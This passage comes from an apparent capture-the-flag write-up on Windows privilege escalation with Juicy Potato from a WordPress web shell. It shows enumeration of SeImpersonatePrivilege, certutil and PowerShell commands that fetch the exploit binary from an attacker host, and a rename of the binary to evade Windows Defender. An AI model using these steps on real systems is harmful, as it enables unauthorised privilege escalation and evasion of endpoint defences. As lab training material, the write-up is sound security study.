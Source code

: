 ## Privesc Juicy Potato

After looking at all my enumeration it seemed like Juicy Potato was a potential option. I have not used Juicy Potato much, and this article on [Impersonating Privileges with Juicy Potato](https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505) was really helpful.

Started by checking if we had the right privilege.

```none
PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

Note that `SeImpersonatePrivilege` is enabled. Then downloaded the newest release from the [juicypotato GitHub page](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).

```none
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

Start a webserver on my attacker's machine, to get the file on the target. Added options for `certutil.exe` and PowerShell, as I keep forgetting the PowerShell syntax!

```none
certutil.exe -urlcache -f http://10.10.14.51:8000/JuicyPotato.exe JuicyPotato.exe
Invoke-WebRequest -Uri http://10.10.14.51:8000/JuicyPotato.exe -OutFile JuicyPotato.exe
```

Change the name of the executable to avoid Windows Defender.

```none
mv JuicyPotato.exe js.exe
```

Viewing the help menu for Juicy Potato.

```none
PS C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen> .\js.exe
.\js.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```
